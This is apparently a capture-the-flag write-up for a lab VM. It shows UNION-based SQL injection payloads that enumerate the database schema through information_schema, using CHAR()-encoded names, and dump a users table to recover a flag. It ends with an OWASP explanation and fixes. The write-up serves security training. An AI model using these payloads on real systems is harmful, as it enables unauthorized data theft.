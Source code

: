 # SQL injection advanced

Go to ```http://[VM_IP]/index.php?page=member```  
In this case, we perform the same actions as in the other part with the SQL injection (look at SQL-injection-basic)

Enter ```4242 UNION SELECT 4242, database()```  
And we get the name of the database - Member_Sql_Injection.  
According to the familiar scheme, we translate the string into a list of characters:  

Member_Sql_Injection = 77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110

```
4242 UNION SELECT 1, TABLE_NAME
FROM information_schema.TABLES
WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110)
```

The name of table is users (117,115,101,114,115)

Now we get the columns that are in the table
```
4242 UNION SELECT 1, COLUMN_NAME FROM information_schema.COLUMNS
WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110)
AND TABLE_NAME = CHAR(117,115,101,114,115) 
```

We get the following database fields: user_id, first_name, last_name, town, country, planet, Commentaire, countersign

Make a request, knowing the fields and get the key!
```
4242 UNION SELECT 1, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign)
FROM users
```

```
Surname : 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```

So, we just follow this instructions.

## Explanation
Attack type: [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
> A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application.
> A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete),
> execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present
> on the DBMS file system and in some cases issue commands to the operating system.
> SQL injection attacks are a type of injection attack,
> in which SQL commands are injected into data-plane input in order to affect theexecution of predefined SQL commands.

## How to fix it
> Escaping all user supplied input.
> Use of stored procedures.
